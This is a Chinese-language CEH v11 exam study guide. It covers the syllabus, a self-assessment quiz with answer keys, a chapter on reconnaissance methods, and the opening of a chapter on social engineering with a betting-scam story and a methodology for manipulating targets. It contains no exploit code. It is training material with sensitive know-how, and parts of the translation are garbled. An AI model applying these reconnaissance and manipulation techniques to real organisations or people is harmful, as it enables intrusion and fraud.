### 模块 12：绕过 IDS、防火墙和蜜罐

* 12.1. 理解 IDS、防火墙和蜜罐概念
* 12.2. IDS、防火墙和蜜罐解决方案
* 12.3. 理解绕过 IDS 的技术
* 12.4. 理解绕过防火墙的不同技术
* 12.5. IDS/防火墙绕过工具
* 12.6. 理解检测蜜罐的不同技术
* 12.7. IDS/防火墙绕过防御
* 12.8. IDS 和防火墙渗透测试概览

### 模块 13：破解 Web 服务器

* 13.1. 理解 Web 服务器概念
* 13.2. 理解 Web 服务器攻击
* 13.3. 理解 Web 服务器攻击方法论


## 13.4. Web 服务器攻击工具
## 13.5. Web 服务器防御
## 13.6. 补丁管理概览
## 13.7. Web 服务器安全工具
## 13.8. Web 服务器渗透测试概览

# 模块 14：破解 Web 应用

## 14.1. 理解 Web 应用概念
## 14.2. 理解 Web 应用威胁
## 14.3. 理解 Web 应用破解方法论
## 14.4. Web 应用破解工具
## 14.5. 理解 Web 应用防御
## 14.6. Web 应用防御
## 14.7. Web 应用渗透测试概览

# 模块 15：SQL 注入

## 15.1. 理解 SQL 注入概念
## 15.2. 理解各种 SQL 注入攻击
## 15.3. 理解 SQL 注入方法论
## 15.4. SQL 注入工具
## 15.5. 理解绕过 IDS 的技术
## 15.6. SQL 注入防御

# 模块 16：破解无线网络

## 16.1. 理解无线网络概念
## 16.2. 理解无线加密算法
## 16.3. 理解无线威胁
## 16.4. 理解无线破解方法论
## 16.5. 无线破解工具
## 16.6. 理解蓝牙破解
## 16.7. 无线破解防御
## 16.8. 无线安全工具
## 16.9. 无线渗透测试概览

# 模块 17：破解移动平台

## 17.1. 理解移动平台攻击向量
## 17.2. 理解操作系统威胁和攻击
## 17.3. 理解 iOS 威胁和攻击
## 17.4. 理解间谍软件
## 17.5. 理解移动设备管理
## 17.6. 移动安全指南和工具
## 17.7. 移动渗透测试概览

# 模块 18：IoT 和 OT 破解

## 18.1. 理解 IoT 和 OT 概念
## 18.2. 理解 IoT 和 OT 攻击
## 18.3. 理解 IoT 和 OT 破解方法论
## 18.4. IoT 和 OT 破解工具
## 18.5. IoT 和 OT 防御
## 18.6. IoT 和 OT 渗透测试概览

# 模块 19：云计算

## 19.1. 理解云计算概念
## 19.2. 理解云计算威胁
## 19.3. 理解云计算攻击
## 19.4. 云计算安全概览
## 19.5. 云计算安全工具
## 19.6. 云计算渗透测试概览

# 模块 20：密码学

## 20.1. 理解密码学概念
## 20.2. 加密算法概览
## 20.3. 密码学工具
## 20.4. 理解公钥基础结构
## 20.5. 理解邮件加密
## 20.6. 理解磁盘加密
## 20.7. 理解密码分析
## 20.8. 密码攻击防御

## 结论

在涵盖了 CEH v11 的结构和大纲后，我们现在应该对该认证的核心内容以及应该设定的目标有更好的了解。我们还应该能够制定学习计划，并决定学习认证的速度。

理解认证主题的变化以及针对不断变化的网络安全世界的补充至关重要。`CEH v11 (312-50)` 是一个概念性考试，涉及了网络安全的所有重要方面。然而，这并没有降低该领域实践经验的重要性。EC-Council 为该领域提供了一个互补的实践认证，即 `CEH (Practical)`，它涵盖了行业所需的实验室工作。

在接下来的章节中，我们将通过自测来为获取知识奠定基础。

CEH 认证基于一组 125 个问题，涵盖了应用和网络安全的所有方面。为了确保你理解相关背景并合理设定预期，我们将进行一次基于 IT 安全基础知识和 CEH 认证的简短评估。

## 结构

题集分为两个部分。第一部分由 20 个基于 IT 安全基础的问题组成，最后 10 个问题基于对 CEH 认证要求和课程的了解。

章节末尾提供了答案，供你进行自测。

## 目标

评估将涵盖信息安全意识、渗透测试与道德黑客，以及 CEH 准备和考试模式的基础知识。

完成评估后，你应该能够识别出自己在准备工作中需要投入什么样的精力。

# 'A' 部分

## 信息安全与渗透测试

1. **以下哪项是信息系统？**
    1. 图书管理系统
    2. 账户数据系统
    3. 在线游戏门户
    4. 以上所有

2. **所有信息系统的组件都需要最高级别的安全保护。**
    1. 正确
    2. 错误

3. **以下哪项不是针对信息安全威胁的正确解决方案？**
    1. 入侵检测系统
    2. 反恶意软件程序
    3. 关闭信息系统
    4. 渗透测试

4. **IT 系统威胁仅限于信息技术领域。**
    1. 正确
    2. 错误

5. **勒索软件是：**
    1. 索要赎金时佩戴的面具
    2. 绑架期间关押人质的房间
    3. 病毒源代码
    4. 将数字信息作为质子的软件

6. **攻击政府设施以破坏基础设施和公共服务的黑客可以称为：**
    1. 网络恐怖分子
    2. 灰帽客
    3. 白帽黑客
    4. 脚本小子

7. **SSL 代表：**
    1. 安全系统层
    2. 安全套接层
    3. 安全语义层
    4. 安全信号层

8. **以下哪项不是信息安全 CIA 三要素之一？**
    1. 可用性
    2. 中心化
    3. 完整性
    4. 机密性

9. **不可否认性保证：**
    1. 信息准确准确
    2. 信息是真实的
    3. 信息在传输过程中未被拦截
    4. 信息由预期的源发送并由预期的目的地接收

10. **以下哪项不是数据存储介质？**
    1. 硬盘驱动器
    2. RAID 驱动器
    3. 蓝光磁盘
    4. 以太网路由器

11. **网络钓鱼是：**
    1. 菲律宾的一种特殊钓鱼技术
    2. 扣留系统索赎金
    3. 冒造真实系统与用户交互
    4. 向服务发送请求以阻塞实际请求的处理

12. **脚本小子是这类黑客：**
    1. 开发复杂的编码方法来攻击系统
    2. 使用预制软件来利用系统
    3. 使用信息系统传播议程
    4. 是用于执行特定恶意行为的代码片段

13. **以下哪项是更好的密码？**
    1. `hello`
    2. `hello123`
    3. `hello@123`
    4. `h3ll0@123`

14. **攻击循环的正确顺序是：**
    1. 侦察 -> 扫描 -> 获取权限 -> 维持权限 -> 清除痕迹
    2. 侦察 -> 获取权限 -> 扫描 -> 维持权限 -> 清除痕迹
    3. 扫描 -> 侦察 -> 获取权限 -> 维持权限 -> 清除痕迹
    4. 侦察 -> 获取权限 -> 维持权限 -> 扫描 -> 清除痕迹

15. **侦察有助于：**
    1. 缩小攻击面
    2. 收集目标系统信息
    3. 确定可能的漏洞
    4. 以上所有

16. **渗透测试是：**
    1. 测试子弹对钢的穿透深度
    2. 测试电钻的穿透深度
    3. 测试信息系统的安全级别
    4. 测试系统的功能性

17. **拒绝服务的目的是：**
    1. 劫持用户会话
    2. 使系统负载以防止其正常运行
    3. 利用 JavaScript 代码攻击客户端浏览器
    4. 删除主机机器数据

18. **以下哪项属于系统加固范畴？**
    1. 应用程序
    2. 操作系统
    3. 网络
    4. 以上所有

19. **以下哪项不是渗透测试的一部分？**
    1. 目标系统
    2. 报告发现的结果
    3. 发布活动
    4. 发布计划

20. **加密有助于：**
    1. 非意愿的拦截
    2. 不连贯的格式
    3. 平白语言
    4. 口头

# 'B' 部分

1. **CEH 代表：**
    1. 道德黑客
    2. 热热黑客
    3. 民族黑客
    4. 认证猎食者

2. **CEH 的最新版本是：**
    1. v10
    2. v9
    3. v11
    4. v08

3. **CEH 的哪种培训模式是？**
    1. 讲师授
    2. 基于计算机的
    3. 现场
    4. 以上所有

4. **CEH v10 考试的题目数量为：**
    1. 150
    2. 100
    3. 125
    4. 200

5. **以下哪项不是一个模块？**
    1. 脚迹与侦察
    2. 漏洞分析
    3. 黑盒测试
    4. IoT 攻击

6. **CEH 的卷券类型有：**
    1. ECC 卷券
    2. VUE 卷券
    3. 以上都不是
    4. A 和 B

7. **以下哪项模块是添加到 CEH10 的？**
    1. SQL 注入
    2. 云计算
    3. 拒绝服务
    4. 社会工程

8. **安排 CEH 在线监考考试需要几个工作日：**
    1. 3
    2. 1
    3. 2
    4. 4

9. **IOT 代表：**
    1. 物联网
    2. 意图跟踪
    3. 互联网调优
    4. 意图调整

10. **CEH (实践) 是一项独立的认证，需要在 6 小时内解决 20 个实践挑战。**
    1. 正确
    2. 错误

# 答案

## 'A' 部分

| 题目 | 答案 | 题目 | 答案 |
| :--- | :--- | :--- | :--- |
| 1 | d | 11 | c |
| 2 | b | 12 | b |
| 3 | c | 13 | d |
| 4 | b | 14 | a |
| 5 | d | 15 | d |
| 6 | a | 16 | c |
| 7 | b | 17 | b |
| 8 | b | 18 | d |
| 9 | d | 19 | c |
| 10 | d | 20 | b |

## 'B' 部分

| 题目 | 答案 | 题目 | 答案 |
| :--- | :--- | :--- | :--- |
| 1 | a | 6 | d |
| 2 | c | 7 | b |
| 3 | d | 8 | a |
| 4 | c | 9 | a |
| 5 | c | 10 | a |

## 结论

测验中获得的得分应解释为：

### 对于 A 部分，信息安全与渗透测试

0 到 7 分意味着你需要深入研究课程内容，并且在参加最终认证之前，应该考虑进行大约二到三个月的准备工作。

8 到 16 分意味着你已经非常接近了，但在参加认证之前需要复习某些主题。你需要识别出自己理解中的薄弱环节，并深入研究重要课题。我们在书的每个章节末尾都设有专门的测验，帮助你对每个模块进行独立的自我评估。

17 到 20 分则表示你已经准备就绪。下一步应该是参加认证的全长度模拟测试，并尝试识别出你任何短板的特定领域。我们在本书末尾也提供了此类内容。互联网上的许多资源也提供了模拟测试，帮助你进入状态以通过认证。

### 针对 B 部分，EC-Council CEH

低于 7 分意味着意味着在深入学习后续章节之前，你需要先过一遍课程和认证大纲。如果你的首要目标是通过认证，这一点尤为重要，因为你需要熟悉认证的模式和要求，以便规划更清晰的准备路径。

为了帮助你评估自己的知识和理解程度，我们在每个章节的末尾包含了一组示例题。这些题目应该帮助你评估并识别任何不足。我们还在大纲末尾包含了一个模拟测试，以模拟 CEH 认证的题目模式。当你对模块感到熟悉并想要评估自己的准备情况时，应该参加模拟测试。祝你好运！

# 第 4 章：侦察

## 引言

理解你即将攻击的系统可能是攻击周期中最重要的一步。如果没有适当知识，信息系统无异于网络、信息和权限构成的巨大混乱迷宫。从收集物理资源位置等基本信息，到对目标应用程序的技术栈进行深度分析，侦察有助于识别并映射目标的攻击面面，并进行有效的规划。

## 结构

我们将在本章涵盖以下主题：

* 收集信息背后的概念
* 理解侦察
* 侦察方法论
* 侦察的重要性

## 目标

本章将带你了解有效侦察的概念、你在在此阶段应该寻找哪些信息，以及最初如何获取这些信息。在本章结束时，你将清晰地理解侦察的必要性，并能够为不同层级的攻击制定侦察策略。

## 理解侦察

要进入信息系统，第一步是理解系统的基础知识。这包括类型、品牌、配置、用户和其他系统细节。没有这些信息，就像在看一本没有字典顺序的字典。信息在那里，但你必须为了一个单词而翻遍整本字典。

在拥有数十亿计设备的世界里，有无数信息系统在全天候运行处理并共享不断增长的数据流和信息。幸运的是，这种互连性和规模也意味着有标准可以遵循，有设计原则需要尊从。这使得数字空间拥有了有限的攻击面。因此，目标是将识别出的攻击面与已知攻击面之一进行匹配，然后你就大功告成了！

这种在实际执行攻击过程之前对系统收集信息的过程被称为 `reconnaissance`（侦察）或 `footprinting`（足迹扫描）。在深入研究之前，让我们了解一些理解和映射应用表面所需的 Basic Concepts。

* **端口**：网络端口是构成数字通信端点的逻辑结构。类似于像 `USB` 和以太网这样的硬件端口，每个网络端口都分配了特定的服务，并且它可以处于监听或传输状态。
* **网络协议**：这些为网络上不同通信类型定义的一系列规则和标准。常见的网络协议包括 `TCP/IP`、`FTP`、`UDP` 等。
* **互联网协议**：Internet Protocol 或 `IP` 是互联网主要的通信协议。通常来说，它是一组定义从源到目的数据包路由和地址的规则，每个数据包都连接到网络。
* **IP 地址**：IP 地址是连接到网络的设备的唯一标识符或地址的字符集。IP 地址有两个主要版本——`IPv4` 和 `IPv6`。
* **域名**：互联网域名是赋予单个或一组 IP 地址的标识名称。命名系统具有两个基本目的：
    1. 底层系统可以更改、添加或删除 IP 地址而不影响服务。
    2. 为用户提供简单、易懂的字符串而不是 IP 地址来记忆服务。
* **DNS**：`DNS` 或域名系统是跨互联网或私有网络中域名与其 IP 地址的通用查询。随着时间的推移，`DNS` 已经扩展到存储各种记录，如 `SOA`（起始授权）记录、`A` 或 `AAA` 记录、`NS`（名称服务器）记录、`MX`（邮件交换）记录等。

良好且有效的侦察就完成了一半的任务。要进入系统，我们必须首先熟悉系统工作原理和接口的最少知识。这可以通过被动观察或与实际系统进行主动交互来收集。侦察根据需要同时采用主动和被动的方法论。

* **被动侦察**：不需要与目标系统进行直接交互的信息收集技术称为被动侦察。这通常包括从有关系统的公开可用信息中收集信息。被动侦察的示例包括浏览组织的网站、阅读员工的技术博客、查看职位列表中的要求等。
* **主动侦察**：主动侦察涉及在交互或拦截方面与目标进行直接接触。这可能包括实际访问组织、使用端口扫描器和网络扫描器进行网络扫描等。攻击者面临的明显风险因素是可能被主体检测到恶意意图。

### 1. 目标识别

为了使入侵具有意义，目标信息必须具有某种价值，或者该行为本身应该产生影响。在计算世界中，每一次代码执行都是一项资金投入。结合时间和精力的投入，目标价值成为了一项重要指标。在停产产品中寻找安全漏洞可能具有教育意义，但对现实世界的影响微乎其微。当然，过程中获得的知识可以帮助攻击仍然依赖该过时组件的类似产品线或系统。同样，破坏在线服务可以作为黑客行动主义（hacktivist）的平台，但也会吸引法律诉讼和可能的刑事起诉。

### 2. 范围定义

攻击范围定义了评估黑客攻击成功所需的所有核心信息或访问级别。这可能包括从系统中提取文档、导致服务中断，或任何其他具有实际的行为的行为。对于渗透测试人员来说，范围定义至关重要，因为它也定义了所有禁止区域。这确保了不会发生意外事故，并且目标系统已做好了应急预案。

### 3. 信息的可用性与来源

数字连接确保了只需点击即可获取海量数据。挑战在于如何浏览这些数据并过滤出服务于目的的信息。此外，公共领域中可用信息的数量和性质因实体而异。广泛使用的产品或上市公司在公共领域拥有的信息远多于适应程度较低的软件。

让我们对所需的某些信息以及获取这些信息的可能来源进行分类。

#### 财务信息

* **强制性财务披露**：公司的年度监管和合规性文件构成了组织财务状况的准确来源。
* **在线分析平台**：有各种在线平台汇总并分析来自各种来源的数据，并以免费或订阅的形式提供。

#### 技术栈


*   **职位招聘**：技术类和分析类职位的招聘列表中往往包含大量与技术栈相关的信息。一份简单的招聘发布可能会透露正在使用的会计软件、服务器环境、使用的主要编程语言和脚本等信息。

*   **员工编写的技术博客/论坛帖子**：技术文章或案例研究发布也可以提供关于项目的大量信息。开发者在开放论坛上讨论问题时，很容易泄露其正在工作的基础内容，在某些情况下甚至会泄露部分源代码。

*   **RFP（征求建议书）**：组织发布的方案建议书或招标也可以提供正在进行的项目细节。组织倾向于在各个垂直领域维持统一的技术栈，因此这些文件也提供了大量已在使用工具的信息。

 考虑某个组织中 `Software Developer` 招聘发布中的技能部分。


从该列表中可以确定以下内容：

*   **编程栈**：`PHP`, `Angular`, `HTML5`

*   **数据库**：`RDBMS`，极可能是 `MySQL` 和 `PostGreSQL`

*   **代码仓库**：`GIT`

*   **Web 服务架构**：`REST`

*   **部署环境**：云端、`Docker`、`AWS` 和/或 `Azure`

*   从招聘列表中通常获取的其他信息包括中心位置、轮班时间、团队规模等。

*   **API 请求/响应头**：API 请求/响应头往往会提供服务器信息，如 Web 服务器名称和版本。如果服务器管理员没有对系统进行加固，可能会暴露更多信息。例如，下方所示的响应头给出了服务器名称 `nginx` 以及其版本号 `1.13.6`。

    

    **图 4.2**：揭示托管信息的响应头

*   **网页和 API 上的错误消息**：应用程序中传播到前端的未处理错误可以提供关键信息，如数据库信息、服务器配置甚至源代码的签名。让我们尝试识别以下错误页面中暴露的信息。`[图 4.3]` 显示了网页上的应用程序错误堆栈，它最终暴露了技术栈和服务器配置。

    

    **图 4.3**：暴露内部实现的应用程序错误堆栈

*   `[图 4.4]` 中的错误堆栈显示内部数据库实现为 `SQL` 以及客户端库信息。

    

    **图 4.4**：暴露内部数据库实现的应用程序错误堆栈

*   同样，`[图 4.5]` 中的错误堆栈暴露了内部技术栈以及一段实际应用程序代码。

    

    **图 4.5**：暴露内部实现的应用程序错误堆栈

*   **产品实现白皮书**：组织发布的白皮书通常是实现思路的宝库。如果仔细扫描，可以从底向上发现整个系统的完整架构。

    

    **图 4.6**：TruePeopleSearch 门户网站

### 员工与客户群

*   **社交媒体**：数字连接的世界倾向于分享很多内容。许多共享信息最终会落在社交媒体上。位置历史、职业概况、组织活动、位置照片、工作站视频等都是一些随意分享的待获取信息。社交媒体也是进行社会工程的绝佳渠道，其中实际物理接触极少且往往不存在。这为身份伪装和误导性信息留下了大量空间。

*   **在线人员搜索**：公共记录有助于在网上轻松追踪个人。有特定的网站作为人员目录。

*   **博客**：开发者关于技术和用例的博客帖子和讨论论坛往往会提供产品和组织架构的内部细节。

### 运行环境

*   **社交媒体**：对用户和公司页面监控可以提供价值信息，如位置、工作时间、招聘信息、针对社会工程的目标人员等。它还提供了一个易于访问的实际执行社会工程攻击的平台。

*   **实地调查**：收集数据的更直接的方法是实际上与利益相关者联系。这涉及以各种理由访问场所、与人接触并提出直接和间接的问题。虽然很有效，但如果执行不谨慎，往往会引起怀疑。

### 网络配置


**图 4.7**：Zenmap

*   **网络扫描**：有很多工具可以用于获取有关目标系统网络配置的不同级别信息。网络扫描的主要目标是确定目标系统的 IP 地址、开放端口以及运行在上面的应用程序。一些知名且广泛使用的网络扫描器包括 `Wireshark`、`Nmap`、`Fiddler` 等。

    

    **图 4.8**：Advance IP Scanner

*   **Whois 查询**：Whois 是一种用于查询包含 IP 地址、域名、域名记录以及与域名相关信息的数据库存储的协议。有许多在线 Whois 查询服务可以查询这些数据库并实时返回信息。Whois 信息可以提供从底层服务到服务者物理地址的各种信息。

## Web 内容

*   **网络爬虫**：网络爬虫或蜘蛛程序是系统地浏览网页的自动化程序。许多网站专门提供元数据，以便网络爬虫能够发现页面。或者，网站也倾向于列出爬虫不应抓取或索引的页面列表和 `/path/to`。这个列表很少能作为入侵尝试的起点。可以使用自定义爬虫来搜索网页上的特定信息、寻找隐藏页面等。

*   **网络监控器**：网络监控器用于检测网页的变化。有许多在线服务提供监控服务。这些服务提供广泛的信息，从运行时间、关键词变化到网站数据变化等。



**图 4.9**：网站监控器



**图 4.10**：网站监控器书签选项

虽然公开市场上有很多用于侦察的工具，但它们的效果取决于使用者的水平。需要记住非常重要的一点是，某些信息有时可能没有直接用，但可以与其他信息结合以推导出重要的内容。例如，提取服务器的 `nginx` 版本可能看起来没什么大不了，但如果将其与该版本的已知漏洞相结合，它很可能成为进入系统的门。或者，通过确定一个机构采用 `XYZ` 作为其核心编程语言，你就会知道是否应该尝试缓冲区溢出攻击。我们必须将所有可用信息视为拼图碎片，直到整个蓝图显现。

## 结论

侦察是黑客循环中一个看似冗余且经常被低估的步骤，它有助于从下至上地制定计划。现在应该很清楚在这个阶段可以收集的信息量，以及其应用对实际攻击产生的影响。

我们现在将进入一种自古以来使用的攻击方法，这种方法在计算机发明和数据泄露出现之前就已经存在。处理从脆弱目标中提取信息的艺术以及使目标变得脆弱的过程，下一章将讨论直接或间接导致全球 90% 以上攻击的策略——社会工程学。

## 测试你的理解

1. **以下哪些不是与 DNS 相关的记录类型？**
   1. `SOA`
   2. `AAA`
   3. `PNG`
   4. `NS`

2. **以下哪些信息无法通过被动侦察收集？**
   1. 员工人数
   2. 活跃网络节点
   3. 办公室位置
   4. 硬件供应商

3. **端口扫描器是干什么用的？**
   1. 检测系统中的活动端口
   2. 确定系统中端口上运行的服务
   3. a 和 b 都是
   4. 以上均不是

4. **在侦察期间收集了以下哪项内容？**
   1. 软件信息
   2. 网络信息
   3. 用户信息
   4. 以上所有

5. **以下哪种行为是主动侦察行为？**
   1. 进入公司
   2. 搜索公司
   3. 网站
   4. 以上所有

## 答案

1. `c`
2. `b`
3. `c`
4. `d`
5. `d`

## 第 5 章：社会工程学

### 引言

社会工程学是最有趣且回报最丰厚的领域之一。它的核心在于影响力。在本章中，我们将关注以下内容。

### 结构

本章将涵盖：

*   实际案例
*   社会工程学技术
*   社会工程学工具
*   测试你的理解

### 目标

在本章结束时，你应该能够：

*   理解什么是社会工程学
*   对社会工程学有清晰的认识
*   设计社会工程
*   有效实施

### 社会工程学：博彩的故事

让我从一个人（我们称他为 John）开始，他接到了某个陌生（我们称他为 Jack）的电话，对方自称是他的好友。Jack 告诉 John 比赛的结果并挂断了电话。John 尝试回拨，但每次都没有人接。

现在是 John 下注了，经过一番犹豫，John 决定不听从，并在他最初计划的球队上投注。令他失望的是，他的球队输了。这是纯属运气还是 Jack 知道结果，尚未知。

在下一场比赛之前，Jack 再次来电告知结果。这次，John 更加认真地对待电话，并在 Jack 建议的球队上投注。果其然，这次 John 赢了。John 虽然心存怀疑，但他没有任何损失，因为 Jack 没有索要任何回报。

这一系列电话持续了整个赛事，很快就到了决赛。从 John 开始听从 Jack 的起，他没有输过任何注。这是一段梦般的表现。但今天不同了，Jack 这次没有打电话。他以前在每场比赛的前一天都会给 John 打电话，但今天是决赛，John 还没有接到电话。他所选类别的投注窗口将在小时内关闭，John 开始变得紧张。最后，电话响了。电话那头，Jack 听起来很害怕。Jack 用担忧且急促的语气告诉 John，他的一笔生意失败了，因为欠了黑帮的钱而陷入了大麻烦。Jack 请求 John 帮助支付这笔大约两万美元的费用，作为对今天比赛信息的报。对于一个陌生人来说，这是一笔巨款，但由于 Jack 提供的提示，John 已经赚了多得多。而且如果这次提示预测中了，John 根本不在乎那笔钱。最重要的是，John 没有理由怀疑 Jack。Jack 从未要求过任何回报，提供的信息总是准确的。John 同意支付款项，获得了 Jack 的账户信息并立即转账。正如承诺的那样，Jack 最后一次告知了 John 比赛结果并挂断了电话，再也没有出现过。

约翰是否赢了那场最后的赌注并不是故事的重点；重点在于杰克的运作模式。与约翰的信念相反，杰克并不是内部知情者、预言者，甚至甚至不是一个专业的分析师。事实上，杰克对游戏一无所知。杰克所做的事情非常简单，但同时又精妙。



**图 5.1**：博彩图

杰克获取了一个当地俱乐部博彩团的客户名单和电话，以及几个一次性拨号号码。他将列表分为两部分，给其中一半人告知 A 队将赢得下一场比赛，给另一半人告知他们 B 队将获胜。当 A 队赢了该比赛时，他就撕掉另一半的列表，并再次将 A 队的列表一分为两部分以应对下一场比赛。失败者中没有人可以抱怨的，因为杰克从未要求过任何回报。他只是打电话提供一个内幕。此外，用在输掉的一上的一次性号码反正会被废弃。然而，对于另一部分来说，每赢一次，杰克简直就是一个奇迹。他每次都准确预测了结果。

在比赛的最后阶段，半决赛获胜名单上的所有人都收到了来自杰克的同一个电话。名单很小，但他们对杰克的信任是巨大的。名单上的六个人中有四个人帮助杰克支付了他的 `dues`。他们赢或输对杰克来说已经不再重要。他处理了所有号码，从账户中提取现金，然后消失。

杰克使用的核心策略是建立信任。一旦建立，信任就会不断巩固，直到杰克确定他的目标会在毫无防备的情况下帮助他。这正是社会工程的基石。

在粗略的形式下，社会工程可以被看作与实体进行社交互动的行为，意在提取某些隐藏的信息或代表攻击者执行某些任务。受攻击的实体并并意识到攻击者的恶意意图，在大多数情况下，会在不知情的情况下泄露信息。这些信息可能简单如出生日期或喜爱的跑车（这可能是安全问题的答案），也可能是受攻击实体属于或曾属于信息系统的详细设计。

### 社会工程方法论

社会工程的艺术并不是一个非常明确的过程，因为它完全取决于对特定目标有效的手段。然而，我们可以将整个过程分解为以下方法论：

1. **范围定义**：攻击者需要识别从受攻击实体处需要什么信息或行动。目标需要是真实的，并且应该引起最小程度的怀疑。理解社会工程在整个计划中的作用至关重要。在某些情况下，社会工程是黑客循环中的主要阶段，例如密码破解中的秘密问题答案提取。在更大的黑客攻击中，它起支持作用，例如组织网络破坏中的网络网关蓝图。攻击者需要确定从目标实体所需的最少信息，而不应贪婪，因为更大的交互会引起怀疑。

2. **目标选择**：选择一个相关的目标让社会工程生效至关重要。不言而喻，你的目标本身应该能够访问你想要利用的资源。此外，每个人都是一个独特的实体，需要精心设计的互动。有很多指标可以判断是否为目标。这些包括角色、社交媒体、历史记录等。

3. **沟通与信任建立**：第一次接触通常是最关键的部分。攻击者需要确保通信是无缝的。这通常是可实现的。负面强化（如紧迫感和损失机会）往往会使目标降低警备。

4. **意图表达**：这是攻击者开始显示意图的时候。这可以简单到要求目标在……上执行某些操作。这里的技巧是验证资源。

5. **意图执行**：这是采取某些步骤的阶段。同样，这些步骤根据资源而异。这里的的第一步是资源。

### 社会工程技术

社会工程攻击是黑客中最独特的形式，因为它们涉及最大的创造力，并且可以在几乎范围内进行。让我们列出一些常见的技术：

*   **网络钓鱼**：这可能是社会工程攻击中最著名的。简单来说，网络钓鱼是冒充合法来源并以合法交易为借由获取私人信息的行为。网络钓鱼的最终目的是目标执行某些操作，例如点击某些捕获身份验证/财务数据的链接。它也可能涉及用户通过电话或其他媒介与攻击者分享信息。

    

    **图 5.2**：钓鱼

随着时间的推移，钓鱼主要根据通信模式被进一步分类。一些常见的包括：

*   **语音钓鱼**：或 `Vishing`，通常被攻击者用于获取卡信息、一次性密码、组织情报等信息。攻击者假装成机构代表，要求目标用户以奖励、服务、账户验证或法律诉讼等为由执行某些操作。

